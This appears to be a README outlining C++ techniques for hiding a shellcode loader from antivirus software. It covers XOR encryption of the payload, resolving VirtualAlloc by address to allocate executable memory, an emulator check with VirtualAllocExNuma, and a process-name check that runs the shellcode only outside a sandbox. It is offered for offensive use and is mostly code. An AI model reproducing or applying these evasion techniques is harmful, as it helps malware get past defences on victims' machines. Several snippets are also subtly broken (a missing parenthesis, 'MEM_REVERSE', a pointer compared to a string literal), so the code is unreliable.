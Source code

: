 # Countering antivirus roadmap

Below I will outline several ways to write a shellcode loader in memory and how to hide it from antivirus on C++.

## Shellcode encryption
The simplest and most important way to hide the load is shellcode encryption , this will help bypass static analysis of your file.
You can use both simple xor and more complex encryption methods such as rc4 , etc .

for example:

```
  const char key[]="somekey";
  const char shellcode[]="some shellcode";
  
  char coded[sizeof(shellcode)];
  
  for (int i=0,j=0; i<sizeof(shellcode); i++,j++){
    if (!(j<sizeof(key))) {
    j=0;
    }
    coded[i] = shellcode[i] ^ key[j];
  }
```

## Using functions via address

You can use instead of a direct function call , a call through the address of this function in memory

for example:
```
  typedef LPVOID(__cdecl *MPROC)(LPVOID,SIZE_T,DWORD,DWORD;
  
  MPROC Alloc = (MPROC)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")),"VirtualAlloc");
  char *ex = (char*)Alloc(NULL,sizeof(shellcode),MEM_COMMIT,PAGE_EXECUTE-READWRITE);
```

## Result processing Windows API

The antivirus emulator may not handle all Windows API functions and returns by default Null

for example:
```
  LPVOID res = NULL;
  res = VirtualAllocExNuma(GetCurrentProcess(), NULL, 100, MEM_REVERSE | MEM_COMMIT, PAGE_EXECUTE_READWRITE, 0);
  
  if (res != NULL )
  {
    //some code
  }
  return 0;
```
## Сhecking the process name

Antivirus during the binary file check can run it not with the original name, to bypass dynamic checking, you can check the name of the file being run.

for example:
```
 int main ( int argc, char* argv[])
 {
  if (argv[0] == "my_name.exe")
  {
    //exec shellcode
  } 
  return 0;
 } 
```
